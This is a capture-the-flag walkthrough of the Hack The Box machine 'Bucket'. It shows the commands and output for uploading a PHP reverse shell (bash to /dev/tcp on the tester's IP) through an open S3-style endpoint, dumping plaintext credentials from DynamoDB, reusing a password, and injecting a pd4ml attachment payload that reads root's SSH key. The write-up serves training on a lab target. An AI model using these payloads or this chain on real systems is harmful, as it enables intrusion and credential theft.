





---
search:
  exclude: true
---
# Bucket Writeup

## Introduction :

Bucket is a Medium Linux box released back in October 2020.

## **Part 1 : Initial Enumeration**

As always we begin our Enumeration using **Nmap** to enumerate opened ports. We will be using the flags **-sC** for default scripts and **-sV** to enumerate versions.
    
    
    [ 10.77.77.77/24 ] [ /dev/pts/1 ] [~/HTB/Bucket]
    → nmap -vvv -p- 10.10.10.212 --max-retries 0 -Pn --min-rate=500 2>/dev/null | grep Discovered
    Discovered open port 80/tcp on 10.10.10.212
    Discovered open port 22/tcp on 10.10.10.212
    
    
    [ 10.77.77.77/24 ] [ /dev/pts/1 ] [~/HTB/Bucket]
    → nmap -sCV -p22,80 10.10.10.212
    Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-01 17:52 CEST
    Nmap scan report for 10.10.10.212
    Host is up (0.47s latency).
    
    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey:
    |   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
    |   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
    |_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
    80/tcp open  http    Apache httpd 2.4.41
    |_http-server-header: Apache/2.4.41 (Ubuntu)
    |_http-title: Did not follow redirect to http://bucket.htb/
    Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel
    
    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 23.75 seconds
    
    

## **Part 2 : Getting User Access**

Our nmap scan picked up port 80 so let's investigate it after we add the **bucket.htb** domain name to our hosts file: 
    
    
    [ 10.77.77.77/24 ] [ /dev/pts/1 ] [~/HTB/Bucket]
    → sudo -i
    ┌──(root💀mahakali)-[~]
    └─# echo '10.10.10.212 bucket.htb' >> /etc/hosts
    
    ┌──(root💀mahakali)-[~]
    └─# ping -c1 bucket.htb
    PING bucket.htb (10.10.10.212) 56(84) bytes of data.
    64 bytes from bucket.htb (10.10.10.212): icmp_seq=1 ttl=63 time=465 ms
    
    --- bucket.htb ping statistics ---
    1 packets transmitted, 1 received, 0% packet loss, time 0ms
    rtt min/avg/max/mdev = 465.099/465.099/465.099/0.000 ms
    
    ┌──(root💀mahakali)-[~]
    └─# exit
    
    [ 10.77.77.77/24 ] [ /dev/pts/1 ] [~/HTB/Bucket]
    →
    
    

` 

And when we go there, we see another domain from the network tab so we also add it to our hosts file and visit it: 

Here we see a bunch of 'amz' headers which refers to amazon.
    
    
    [ 10.77.77.77/24 ] [ /dev/pts/1 ] [~/HTB/Bucket]
    → curl --head s3.bucket.htb
    HTTP/1.1 404
    Date: Thu, 01 Jul 2021 16:46:23 GMT
    Server: hypercorn-h11
    content-type: text/html; charset=utf-8
    content-length: 21
    access-control-allow-origin: *
    access-control-allow-methods: HEAD,GET,PUT,POST,DELETE,OPTIONS,PATCH
    access-control-allow-headers: authorization,content-type,content-md5,cache-control,x-amz-content-sha256,x-amz-date,x-amz-security-token,x-amz-user-agent,x-amz-target,x-amz-acl,x-amz-version-id,x-localstack-target,x-amz-tagging
    access-control-expose-headers: x-amz-version-id
    
    

This is what makes this box very unique since HTB isn't cloud based on amazon, yet we have what seems like an AWS box right here. So to continue we're going to take a look at AWS CLI [documentation](https://docs.aws.amazon.com/cli/latest/reference/)
    
    
    [ 10.77.77.77/24 ] [ /dev/pts/1 ] [~/HTB/Bucket]
    → sudo apt install awscli -y 
    
    [ 10.77.77.77/24 ] [ /dev/pts/1 ] [~/HTB/Bucket]
    → which aws
    /usr/bin/aws
    
    [ 10.77.77.77/24 ] [ /dev/pts/1 ] [~/HTB/Bucket]
    → aws --endpoint-url http://s3.bucket.htb s3 ls
    Unable to locate credentials. You can configure credentials by running "aws configure".
    

So first we need to configure the 'credentials' we can just try to fill in some random credentials to test: 
    
    
    [ 10.77.77.77/24 ] [ /dev/pts/1 ] [~/HTB/Bucket]
    → aws configure
    AWS Access Key ID [None]: stuff
    AWS Secret Access Key [None]: stuff
    Default region name [None]: stuff
    Default output format [None]: stuff
    
    [ 10.77.77.77/24 ] [ /dev/pts/1 ] [~/HTB/Bucket]
    → aws --endpoint-url http://s3.bucket.htb s3 ls
    2021-07-01 20:12:03 adserver
    
    
    [ 10.10.14.8/23 ] [ /dev/pts/15 ] [~/HTB/Bucket]
    → aws --endpoint-url http://s3.bucket.htb s3 ls adserver
                               PRE images/
    2021-07-01 20:34:08       5344 index.html
    
    

So here we see that we are able to read the root of the website directory where index.html is. Apparently the directory is called 'adserver' so we're going to try to upload a reverse php shell there. Now according to the documentation, we can use the copy command, so let's try that:
    
    
    [terminal1]
    [ 10.10.14.8/23 ] [ /dev/pts/1 ] [~/HTB/Bucket]
    → vim rev.php
    
    [ 10.10.14.8/23 ] [ /dev/pts/1 ] [~/HTB/Bucket]
    → cat rev.php
    <****?php
    exec("/bin/bash -c 'bash -i > & /dev/tcp/10.10.14.8/9001 0>&1'");
    ?****>
    
    [ 10.10.14.8/23 ] [ /dev/pts/1 ] [~/HTB/Bucket]
    → aws --endpoint-url http://s3.bucket.htb s3 cp rev.php s3://adserver/
    upload: ./rev.php to s3://adserver/rev.php
    
    [terminal2]
    [ 10.10.14.8/23 ] [ /dev/pts/1 ] [~/HTB/Bucket]
    → curl http://bucket.htb/rev.php
    
    [terminal3]
    [ 10.10.14.8/23 ] [ /dev/pts/13 ] [~/HTB/Bucket]
    → nc -lvnp 9001
    listening on [any] 9001 ...
    connect to [10.10.14.8] from (UNKNOWN) [10.10.10.212] 55294
    bash: cannot set terminal process group (1023): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@bucket:/var/www/html$

And we get a reverse shell as www-data! Now before we continue we're going to spawn a fully-interactive TTY: 
    
    
    www-data@bucket:/var/www/html$ which python python3 wget curl
    which python python3 wget curl
    /usr/bin/python3
    /usr/bin/wget
    /usr/bin/curl
    www-data@bucket:/var/www/html$ python3 -c 'import pty;pty.spawn("/bin/bash")'
    python3 -c 'import pty;pty.spawn("/bin/bash")'
    www-data@bucket:/var/www/html$ ^Z
    [1]  + 847849 suspended  nc -lvnp 9001
    
    [ 10.10.14.8/23 ] [ /dev/pts/13 ] [~/HTB/Bucket]
    → stty raw -echo ; fg
    [1]  + 847849 continued  nc -lvnp 9001
                                          export TERM=screen-256color
    www-data@bucket:/var/www/html$ export SHELL=bash
    www-data@bucket:/var/www/html$ stty rows 50 columns 200
    www-data@bucket:/var/www/html$ reset
    
    

Now that's done we're going to enumerate the box using linpeas.sh: 
    
    
    [terminal 1]
    [ 10.10.14.8/23 ] [ /dev/pts/14 ] [~/HTB/Bucket]
    → curl https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh > linpeas.sh
      % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                     Dload  Upload   Total   Spent    Left  Speed
    100  451k  100  451k    0     0    99k      0  0:00:04  0:00:04 --:--:--   99k
    
    [ 10.10.14.8/23 ] [ /dev/pts/14 ] [~/HTB/Bucket]
    → ls -l
    total 456
    -rw-r--r-- 1 nothing nothing 462687 Jul  1 20:22 linpeas.sh
    -rw-r--r-- 1 nothing nothing     76 Jul  1 20:18 rev.php
    
    [ 10.10.14.8/23 ] [ /dev/pts/14 ] [~/HTB/Bucket]
    → python3 -m http.server 9090
    Serving HTTP on 0.0.0.0 port 9090 (http://0.0.0.0:9090/) ...
    
    [terminal 2]
    www-data@bucket:/var/www/html$ wget http://10.10.14.8:9090/linpeas.sh -O /tmp/peas.sh
    --2021-07-01 18:31:58--  http://10.10.14.8:9090/linpeas.sh
    Connecting to 10.10.14.8:9090... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 462687 (452K) [text/x-sh]
    Saving to: ‘/tmp/peas.sh’
    
    /tmp/peas.sh                                      100%[=============================================================================================================>] 451.84K   194KB/s    in 2.3s
    
    2021-07-01 18:32:01 (194 KB/s) - ‘/tmp/peas.sh’ saved [462687/462687]
    
    www-data@bucket:/var/www/html$ chmod +x /tmp/peas.sh
    www-data@bucket:/var/www/html$ /tmp/peas.sh
    
    

` 

Let linpeas run a bit and then scrolling through the output we see the following: 

First of all there are some listening ports that we didn't see with our nmap scan, that's because they are listening on localhost, so we may need to do SSH tunnels to access them. However the main meal here is the hint to take a look into DynamoDB:

And if we look back at the documentation for aws-cli we see that we may be able to enumerate it using the aws binary we used before to upload our reverse php shell:

Now in order to use the awscli dynamodb utility we need to first get the format to be either text or json or yaml:
    
    
    [ 10.10.14.8/23 ] [ /dev/pts/15 ] [~/HTB/Bucket]
    → aws configure
    AWS Access Key ID [****************tuff]: stuff
    AWS Secret Access Key [****************tuff]: stuff
    Default region name [stuff]: stuff
    Default output format [stuff]: json
    
    [ 10.10.14.8/23 ] [ /dev/pts/15 ] [~/HTB/Bucket]
    → aws --endpoint-url http://s3.bucket.htb dynamodb list-tables
    {
        "TableNames": [
            "users"
        ]
    }
    
    

Now we know that there is a users table, so let's scan/enumerate it:
    
    
    [ 10.10.14.8/23 ] [ /dev/pts/15 ] [~/HTB/Bucket]
    → aws --endpoint-url http://s3.bucket.htb dynamodb scan --table-name users
    {
        "Items": [
            {
                "password": {
                    "S": "Management@#1@#"
                },
                "username": {
                    "S": "Mgmt"
                }
            },
            {
                "password": {
                    "S": "Welcome123!"
                },
                "username": {
                    "S": "Cloudadm"
                }
            },
            {
                "password": {
                    "S": "n2vM-<****_K_Q:.Aa2"
                },
                "username": {
                    "S": "Sysadm"
                }
            }
        ],
        "Count": 3,
        "ScannedCount": 3,
        "ConsumedCapacity": null
    }
    
    [ 10.10.14.8/23 ] [ /dev/pts/15 ] [~/HTB/Bucket]
    → aws --endpoint-url http://s3.bucket.htb dynamodb scan --table-name users | jq -r  '.Items[] | "\(.username[]):\(.password[])"'
    Mgmt:Management@#1@#
    Cloudadm:Welcome123!
    Sysadm:n2vM- <****_K_Q:.Aa2

And we have 3 sets of credentials! now another thing to look at is the apache configuration of this box: 
    
    
    www-data@bucket:/var/www/html$ cat /etc/apache2/sites-enabled/000-default.conf
    VirtualHost 127.0.0.1:8000>
            IfModule mpm_itk_module>
                    AssignUserId root root
            /IfModule>
            DocumentRoot /var/www/bucket-app
    /VirtualHost>
    
    [...]
    
    

Here we are hinted towards the bucket-app directory: 
    
    
    www-data@bucket:/var/www/html$ ls -lash /var/www/
    total 16K
    4.0K drwxr-xr-x   4 root root 4.0K Feb 10 12:29 .
    4.0K drwxr-xr-x  14 root root 4.0K Feb 10 12:29 ..
    4.0K drwxr-x---+  4 root root 4.0K Feb 10 12:29 bucket-app
    4.0K drwxr-xr-x   2 root root 4.0K Jul  1 19:54 html
    
    

And here we see something interesting with the permissions of this file, it is owned by the root user, we can't read any of it as our current user www-data, however there is a **+** after the **RWXR-X---** permissions, and that's odd. To enumerate that we can use getfacl:
    
    
    www-data@bucket:/var/www$ getfacl bucket-app/
    # file: bucket-app/
    # owner: root
    # group: root
    user::rwx
    user:roy:r-x
    group::r-x
    mask::r-x
    other::---
    
    

And here we see that the root user allowed the user **roy** to access that directory, so we need to first privesc to the roy user. Now since roy is a valid user on this box let's try to login with the 3 passwords we found earlier:
    
    
    www-data@bucket:/var/www$ su - roy
    Password:n2vM-<****_K_Q:.Aa2
    roy@bucket:~$ id
    uid=1000(roy) gid=1000(roy) groups=1000(roy),1001(sysadm)
    roy@bucket:~$ cat user.txt
    9bXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX

And there you go! We managed to privesc to the roy user and get the user flag.

## **Part 3 : Getting Root Access**

Now in order to privesc to root let's investigate what that bucket-app is about, for ease of use we can ssh as the roy user:
    
    
    [ 10.10.14.8/23 ] [ /dev/pts/16 ] [~/HTB/Bucket]
    → ssh roy@bucket.htb
    The authenticity of host 'bucket.htb (10.10.10.212)' can't be established.
    ECDSA key fingerprint is SHA256:7+5qUqmyILv7QKrQXPArj5uYqJwwe7mpUbzD/7cl44E.
    Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
    Warning: Permanently added 'bucket.htb,10.10.10.212' (ECDSA) to the list of known hosts.
    roy@bucket.htb's password:
    Welcome to Ubuntu 20.04 LTS (GNU/Linux 5.4.0-48-generic x86_64)
    
     * Documentation:  https://help.ubuntu.com
     * Management:     https://landscape.canonical.com
     * Support:        https://ubuntu.com/advantage
    
      System information as of Thu 01 Jul 2021 08:00:00 PM UTC
    
      System load:                      0.08
      Usage of /:                       33.6% of 17.59GB
      Memory usage:                     26%
      Swap usage:                       0%
      Processes:                        242
      Users logged in:                  0
      IPv4 address for br-bee97070fb20: 172.18.0.1
      IPv4 address for docker0:         172.17.0.1
      IPv4 address for ens160:          10.10.10.212
      IPv6 address for ens160:          dead:beef::250:56ff:feb9:5d06
    
     * Kubernetes 1.19 is out! Get it in one command with:
    
         sudo snap install microk8s --channel=1.19 --classic
    
       https://microk8s.io/ has docs and details.
    
    229 updates can be installed immediately.
    103 of these updates are security updates.
    To see these additional updates run: apt list --upgradable
    
    
    The list of available updates is more than a week old.
    To check for new updates run: sudo apt update
    
    
    The programs included with the Ubuntu system are free software;
    the exact distribution terms for each program are described in the
    individual files in /usr/share/doc/*/copyright.
    
    Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
    applicable law.
    
    Last login: Wed Sep 23 03:33:53 2020 from 10.10.14.2
    roy@bucket:~$ id
    uid=1000(roy) gid=1000(roy) groups=1000(roy),1001(sysadm)
    roy@bucket:~$
    
    

Now looking into the bucket-app directory we see that there is some php, and java files to work with:
    
    
    roy@bucket:/var/www/bucket-app$ ls -lash
    total 856K
    4.0K drwxr-x---+  4 root root 4.0K Feb 10 12:29 .
    4.0K drwxr-xr-x   4 root root 4.0K Feb 10 12:29 ..
    4.0K -rw-r-x---+  1 root root   63 Sep 23  2020 composer.json
     24K -rw-r-x---+  1 root root  21K Sep 23  2020 composer.lock
    4.0K drwxr-x---+  2 root root 4.0K Feb 10 12:29 files
     20K -rwxr-x---+  1 root root  17K Sep 23  2020 index.php
    792K -rwxr-x---+  1 root root 790K Jun 10  2020 pd4ml_demo.jar
    4.0K drwxr-x---+ 10 root root 4.0K Feb 10 12:29 vendor
    
    roy@bucket:/var/www/bucket-app$ vim index.php
    

Now when we take a look at index.php we see the following:

First of all we see that index.php is checking for a POST request header **"action"=="get_alerts"** and if it recieves it, it will then check the dynamodb database for an item inside the **alerts** table, whose title is **Ransomware** and if it finds it, then once that's done, it will execute a java **pd4ml** command, so first we need to take a look at pd4ml syntax to create a payload, for instance since we know we can upload files, we should look at how to attach files [here](https://pd4ml.com/cookbook/pdf-attachments.htm):

So here we can create our first payload, and we're going to name it ransomware:
    
    
    [ 10.10.14.8/23 ] [ /dev/pts/14 ] [~/HTB/Bucket]
    → vim ransomware.json
    
    [ 10.10.14.8/23 ] [ /dev/pts/14 ] [~/HTB/Bucket]
    → cat ransomware.json| jq
    {
      "title": {
        "S": "Ransomware"
      },
      "data": {
        "S": "<****html> <****pd4ml:attachment src='file:///root/.ssh/'  description='nihilist' icon='Paperclip'/>"
      }
    }

Since this is a java application, simply specifying a directory will act like a directory listing, now since we saw earlier that we could interact with the database using awscli, we make another payload to create the table called **alerts** that's because we saw earlier that there was only one table called 'users', and after we create the table we're going to put the file as an item inside of that new table:
    
    
    
    aws --endpoint-url http://s3.bucket.htb dynamodb create-table \
    	--table-name alerts \
    	--attribute-definitions AttributeName=title,AttributeType=S \
    	--key-schema AttributeName=title,KeyType=HASH \
    	--provisioned-throughput ReadCapacityUnits=5,WriteCapacityUnits=5
    
    [ 10.10.14.8/23 ] [ /dev/pts/13 ] [~/HTB/Bucket]
    → aws --endpoint-url http://s3.bucket.htb dynamodb list-tables
    {
        "TableNames": [
            **"alerts",**
            "users"
        ]
    }
    
    
    [ 10.10.14.8/23 ] [ /dev/pts/13 ] [~/HTB/Bucket]
    → aws --endpoint-url http://s3.bucket.htb dynamodb put-item --table-name alerts --item file://ransomware.json
    {
        "ConsumedCapacity": {
            "TableName": "alerts",
            "CapacityUnits": 1.0
        }
    }
    

If you get an error because the table doesn't exist, keep recreating the table because the box wipes the tables every minutes or so. To do this quicker i made a simple script that will run all the 3 aws commands we need:
    
    
    [ 10.10.14.8/23 ] [ /dev/pts/13 ] [~/HTB/Bucket]
    → cat aws.sh
    #!/bin/bash
    
    aws --endpoint-url http://s3.bucket.htb dynamodb create-table \
        --table-name alerts \
        --attribute-definitions AttributeName=title,AttributeType=S \
        --key-schema AttributeName=title,KeyType=HASH \
        --provisioned-throughput ReadCapacityUnits=5,WriteCapacityUnits=5
    
    aws --endpoint-url http://s3.bucket.htb dynamodb list-tables
    aws --endpoint-url http://s3.bucket.htb dynamodb put-item --table-name alerts --item file://ransomware.json
    
    [ 10.10.14.8/23 ] [ /dev/pts/13 ] [~/HTB/Bucket]
    → chmod +x aws.sh
    
    [ 10.10.14.8/23 ] [ /dev/pts/13 ] [~/HTB/Bucket]
    → ./aws.sh
    

Now that's done we need to actually access the application itself that's running on port 8000, which only listens for connections coming from localhost, so let's use a [SSH Tunnel](../Tools/sshtunnels/index.md) to port forward the port to our local machine so that we can access it:
    
    
    [terminal 2]
    [ 10.10.14.8/23 ] [ /dev/pts/1 ] [~/HTB/Bucket]
    → ssh -L 8000:127.0.0.1:8000 roy@bucket.htb
    roy@bucket.htb's password: n2vM-<****_K_Q:.Aa2
    
    [...]
    
    roy@bucket:~$
    
    [terminal 1]
    [ 10.10.14.8/23 ] [ /dev/pts/14 ] [~/HTB/Bucket]
    → nmap 127.0.0.1 -p 8000
    Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-01 22:55 CEST
    Nmap scan report for localhost (127.0.0.1)
    Host is up (0.000084s latency).
    
    PORT     STATE SERVICE
    8000/tcp open  http-alt
    
    Nmap done: 1 IP address (1 host up) scanned in 0.07 seconds

Here we see that we successfully port forwarded the application to our local 8000 port. so let's view it from our browser:

Not much to see on it, however back to our roy SSH session, we know that there is a directory called 'files':
    
    
    roy@bucket:/var/www/bucket-app$ ls -lash files/
    total 8.0K
    4.0K drwxr-x---+ 2 root root 4.0K Feb 10 12:29 .
    4.0K drwxr-x---+ 4 root root 4.0K Feb 10 12:29 ..
    
    

` 

and that's where the PDF file will get generated. so let's run our exploit to create the table, upload ransomware.json and then see the result after we made that POST request with the **get_alerts** header, so let's add it to our script, to do so we're going to use curl:
    
    
    [ 10.10.14.8/23 ] [ /dev/pts/14 ] [~/HTB/Bucket]
    → cat aws.sh
    #!/bin/bash
    
    aws --endpoint-url http://s3.bucket.htb dynamodb create-table \
        --table-name alerts \
        --attribute-definitions AttributeName=title,AttributeType=S \
        --key-schema AttributeName=title,KeyType=HASH \
        --provisioned-throughput ReadCapacityUnits=5,WriteCapacityUnits=5
    
    aws --endpoint-url http://s3.bucket.htb dynamodb list-tables
    aws --endpoint-url http://s3.bucket.htb dynamodb put-item --table-name alerts --item file://ransomware.json
    **curl -X POST  -d "action=get_alerts" http://127.0.0.1:8000**
    
    [ 10.10.14.8/23 ] [ /dev/pts/14 ] [~/HTB/Bucket]
    → ./aws.sh
    

Now we run the script and check the files directory we found previously:

When we click the generated PDF we get the following:

So here we get a PDF with an attached file as planned, now the question is what did we get from that attached file:

And we managed to take a look into the root user's **.ssh** directory! so now let's change our ransomware.json to get the root's **id_rsa** private key:
    
    
    [ 10.10.14.8/23 ] [ /dev/pts/14 ] [~/HTB/Bucket]
    → vim ransomware.json
    
    [ 10.10.14.8/23 ] [ /dev/pts/14 ] [~/HTB/Bucket]
    → cat ransomware.json
    {"title":
            {"S": "Ransomware"},
            "data":{"S":""}
    }
    
    [ 10.10.14.8/23 ] [ /dev/pts/14 ] [~/HTB/Bucket]
    → ./aws.sh
    
    

` 

Looks like we got the private key! now let's use it to login as root via ssh:
    
    
    [ 10.10.14.8/23 ] [ /dev/pts/13 ] [~/HTB/Bucket]
    → cp ~/Downloads/root.id_rsa .
    
    [ 10.10.14.8/23 ] [ /dev/pts/13 ] [~/HTB/Bucket]
    → chmod 600 root.id_rsa
    
    [ 10.10.14.8/23 ] [ /dev/pts/13 ] [~/HTB/Bucket]
    → ssh root@bucket.htb -i root.id_rsa
    Welcome to Ubuntu 20.04 LTS (GNU/Linux 5.4.0-48-generic x86_64)
    
     * Documentation:  https://help.ubuntu.com
     * Management:     https://landscape.canonical.com
     * Support:        https://ubuntu.com/advantage
    
      System information as of Thu 01 Jul 2021 09:20:54 PM UTC
    
      System load:                      0.04
      Usage of /:                       33.6% of 17.59GB
      Memory usage:                     27%
      Swap usage:                       0%
      Processes:                        256
      Users logged in:                  1
      IPv4 address for br-bee97070fb20: 172.18.0.1
      IPv4 address for docker0:         172.17.0.1
      IPv4 address for ens160:          10.10.10.212
      IPv6 address for ens160:          dead:beef::250:56ff:feb9:5d06
    
     * Kubernetes 1.19 is out! Get it in one command with:
    
         sudo snap install microk8s --channel=1.19 --classic
    
       https://microk8s.io/ has docs and details.
    
    229 updates can be installed immediately.
    103 of these updates are security updates.
    To see these additional updates run: apt list --upgradable
    
    
    The list of available updates is more than a week old.
    To check for new updates run: sudo apt update
    Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings
    
    
    Last login: Tue Feb  9 14:39:03 2021
    root@bucket:~# id
    uid=0(root) gid=0(root) groups=0(root)
    root@bucket:~# cat root.txt
    82XXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    
    

And there you go! We managed to login as the root user and get the root flag.

## **Conclusion**

Here we can see the progress graph :

